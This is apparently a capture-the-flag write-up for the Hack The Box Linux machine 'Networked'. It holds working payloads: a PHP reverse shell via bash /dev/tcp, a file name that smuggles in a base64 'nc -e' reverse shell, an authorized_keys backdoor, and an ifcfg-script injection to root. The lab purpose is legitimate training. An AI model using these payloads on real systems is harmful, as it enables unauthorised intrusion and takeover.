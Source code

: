 ```yaml
---
date: 2025-05-13
categories: [Linux, Easy]
---
```


![Networked](https://labs.hackthebox.com/storage/avatars/0b286019523dcd78cf03d3a3472a3792.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [guly](https://app.hackthebox.com/users/8292)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---








- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.

	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.10.146 -oG scan
	/opt/extractports scan
	nmap -p22,80 -Pn -sCV 10.10.10.146 -oN ports
	```

  ![image](https://github.com/user-attachments/assets/5698697d-5798-4adf-abc3-e567bbc3d072)

- I start by accessing the website, but since I don’t find anything relevant, I decide to search for directories and `.php` files using `ffuf`.
	
	```python
	ffuf -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.146/FUZZ/ --mc=200 -e .php
	```
	
	![image](https://github.com/user-attachments/assets/71c6b598-1e35-4bbf-8eef-371eeaa7e1b5)

- Among the discovered directories, I find a compressed file. After downloading and extracting it, I see several PHP files that appear to be the same as those running on the website.

	![image](https://github.com/user-attachments/assets/ea291d82-9878-4b23-84c3-896e2626af92)

- Observing how the upload feature works, I notice that the file name must end with one of the allowed extensions. Additionally, the beginning of the file is checked to validate its type.
- To bypass these restrictions, I prepend the file with the magic bytes of a JPEG file and then append PHP code to see if the server interprets it.

  ![image](https://github.com/user-attachments/assets/3e070e5a-2352-4d26-bac1-207c60a8a119)

- After confirming that code execution is possible, I upload a file containing the following PHP code to establish a reverse shell:

```python
<?php 
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.6/4242 0>&1'");
?>
```

- This gives me a shell as the `apache` user. Now, I need to escalate privileges to the `guly` user in order to read the first system flag.
- While exploring the system, I find that the `guly` user has a script in his home directory that runs every 30 seconds. This script scans the website’s `uploads` folder and deletes any malicious files it finds.

	![image](https://github.com/user-attachments/assets/e5ff52fb-830a-4bbb-bc7f-5f8b099458c8)

	![image](https://github.com/user-attachments/assets/f2e6e61b-9f52-43d3-bc96-9495cda012a7)
	
- Two variables are used to define the path of the file to be deleted. One static and the other containing the file name.
- Since no input sanitization is applied, it's possible to terminate the `rm` command and inject arbitrary commands.
- Attempting to use the `/` character in the file name causes issues, so I decide to encode a reverse shell payload in base64 to bypass the restriction.

	```python
	nc -e /bin/bash 10.10.14.6 4444
	
	touch 'a; echo "bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LjYgNDQ0NAo=" | base64 -d | sh'
	```

	![image](https://github.com/user-attachments/assets/7561861b-1b6e-4de2-a190-eb1e1a00bbea)

- With this reverse shell, I gain access as the `guly` user and can read the first system flag.
- For more convenient access to the system, I generate an SSH key pair and add the public key to the `authorized_keys` file to enable SSH login.

	```python
	ssh-keygen -f key
	cat key.pub
	echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /home/guly//.ssh/authorized_keys
	ssh -i key guly@10.10.10.146
	```

- At this point, I look for privilege escalation opportunities to gain root access. I begin checking for binaries that I can run without a password and find one.

	![image](https://github.com/user-attachments/assets/a54fe402-091e-4c6b-aa40-0f9148c6591d)

- The binary references a file in `/etc/sysconfig/network-scripts`. Upon investigating this path, I find a [post](https://seclists.org/fulldisclosure/2019/Apr/24) explaining that if a user has write permissions to a file in that directory, they can execute commands as root.
 
```sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

- Following this logic, I create a custom file containing the command `chmod u+s /bin/bash`. When the binary executes it as root, it sets the SUID bit on `/bin/bash`, allowing me to become root and read the second system flag.
	
	```python
	NAME=PEPE /tmp/privesc
	```
	
	![image](https://github.com/user-attachments/assets/4e204509-869b-4fbf-a443-88097601c4c8)
